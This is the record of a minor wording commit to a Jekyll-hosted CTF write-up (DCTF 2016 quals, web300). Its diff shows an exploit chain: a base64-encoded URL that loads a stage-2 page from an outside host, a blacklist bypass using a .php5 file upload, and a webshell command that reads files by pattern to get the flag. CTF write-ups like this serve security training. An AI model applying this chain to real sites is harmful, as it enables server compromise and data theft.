

Before and after one commit to mtps3/Mtps3.github.io, a Jekyll site: the page built from _posts/2016-09-25-dctfquals2016-super-secure-company-llc.md, in a window 1280 px wide and 900 px high, scrolled down 5823 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
dctf web300: some more minor cosmetic changes

````diff
--- a/_posts/2016-09-25-dctfquals2016-super-secure-company-llc.md
+++ b/_posts/2016-09-25-dctfquals2016-super-secure-company-llc.md
@@ -244,9 +244,8 @@
    `http://127.0.0.1/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage2.html )`
    this way we change the origin back to `127.0.0.1`, can execute JS in the context of the bot and are able to perfrom `POST` requests without violating the same-origin policy and bypassing the admin check.
 
-3. **Stage 2 payload makes an ajax `POST` request** to
+3. **Stage 2 payload uploads a file using an ajax `POST` request** to
    `http://127.0.0.1/admin.php?page=upload`
-   and uploads a file.
 
    But the file upload code disallowed certain file extensions:
 
@@ -260,19 +259,15 @@
    ?>
    ```
 
-   Fortunately the `.php5` extension was not part of the blacklist, so we just used that.
+   Fortunately the `.php5` extension was not part of the blacklist, so we just used that and hoped for the best.
 
-4. **Upload file with `.php5` extension** and visit
+4. **Upload file with `.php5` extension to get execute commands.** For example:
    `http://10.13.37.13/uploads/file_with_more_than_twelve_chars.php5`
-   to execute the webshell.
-5. **Use webshell** to execute `find / -name *flag* | xargs cat`, which revealed the flag in
-   `/flag`:
+5. **Get flag using the webshell**. We executed `find / -name *flag* | xargs cat`, which revealed the flag in `/flag`:
 
    `DCTF{5a42e723159e537443b99ba7f95fbe04}`
 
 :)
-
----
 
 ### Attack code
 
````
Also changed, not shown: other parts of _posts/2016-09-25-dctfquals2016-super-secure-company-llc.md (+1 -1 lines).
